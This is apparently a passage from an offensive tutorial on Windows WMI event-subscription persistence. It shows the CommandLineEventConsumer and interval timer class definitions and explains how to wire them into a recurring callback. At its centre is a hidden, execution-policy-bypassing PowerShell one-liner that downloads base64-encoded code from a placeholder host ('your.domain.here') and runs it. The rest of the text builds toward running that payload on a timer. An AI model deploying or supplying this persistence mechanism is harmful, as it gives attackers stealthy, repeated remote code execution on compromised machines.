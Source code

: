 The properties of a **CommandLineEventConsumer** instance are detailed below:
```
class CommandLineEventConsumer : __EventConsumer
{
	[key] string Name;
	[write] string ExecutablePath;
	[Template, write] string CommandLineTemplate;
	[write] boolean UseDefaultErrorMode = FALSE;
	[DEPRECATED] boolean CreateNewConsole = FALSE;
	[write] boolean CreateNewProcessGroup = FALSE;
	[write] boolean CreateSeparateWowVdm = FALSE;
	[write] boolean CreateSharedWowVdm = FALSE;
	[write] sint32 Priority = 32;
	[write] string WorkingDirectory;
	[DEPRECATED] string DesktopName;
	[Template, write] string WindowTitle;
	[write] uint32 XCoordinate;
	[write] uint32 YCoordinate;
	[write] uint32 XSize;
	[write] uint32 YSize;
	[write] uint32 XNumCharacters;
	[write] uint32 YNumCharacters;
	[write] uint32 FillAttribute;
	[write] uint32 ShowWindowCommand;
	[write] boolean ForceOnFeedback = FALSE;
	[write] boolean ForceOffFeedback = FALSE;
	[write] boolean RunInteractively = FALSE;
	[write] uint32 KillTimeout = 0;
};
```
The properties we care about setting are *Name* and *CommandLineTemplate*. The *Name* is just the name of the consumer and the *CommandLineTemplate* is what command to run for the callback we are going to create. Lets make it an HTTP based callback:
```batch
powershell -w hidden -ep bypass -nop -c "IEX([Text.Encoding]::Ascii.GetString([Convert]::FromBase64String(((New-Object [System.Net.WebClient).DownloadString('http://your.domain.here/callback.txt')))))";
```
This will download and run whatever base 64 encoded powershell code is at the URL http://your.domain.here/callback.txt.

## Timer Instructions
A timer instruction fires on (obviously) a timer. There are two types of timers: interval and absolute. Interval timers run at an interval specified in milliseconds where an absolute timer is fired one time when the system time reaches the time specified in the instance.  
Each of these timer types has a corresponding WMI class: **\_\_IntervalTimerInstruction** and **\_\_AbsoluteTimerInstruction**. Both are sub-classes of **\_\_TimerInstruction**. For this example I am using the interval-based version.

The properties of an **\_\_IntervalTimerInstruction** instance are detailed below:
```
class __IntervalTimerInstruction : __TimerInstruction
{
	[not_null: DisableOverride ToInstance ToSubClass, units("milliseconds"): DisableOverride ToInstance ToSubClass] uint32 IntervalBetweenEvents;
};
```
The parent class is also important and is shown below:
```
class __TimerInstruction : __EventGenerator
{
	[key] string TimerId;
	boolean SkipIfPassed = FALSE;
};
```